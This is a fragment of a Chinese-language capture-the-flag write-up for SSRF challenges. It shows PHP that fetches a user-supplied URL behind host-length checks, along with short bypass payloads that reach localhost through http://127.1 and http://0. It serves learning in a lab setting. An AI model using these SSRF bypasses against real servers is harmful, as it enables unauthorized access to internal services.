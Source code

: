 ```
```

这个题限制了host的长度，小于等于5，使用127.1省略绕过

```
url=http://127.1/flag.php

```

![image-20240904193308711](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409041933748.png)



### web356

```
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=3)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?>
```

此题限制了host的长度小于等于3

0在 linux 系统中会解析成127.0.0.1在windows中解析成0.0.0.0

```
url=http://0/flag.php

```

得到flag



### web357
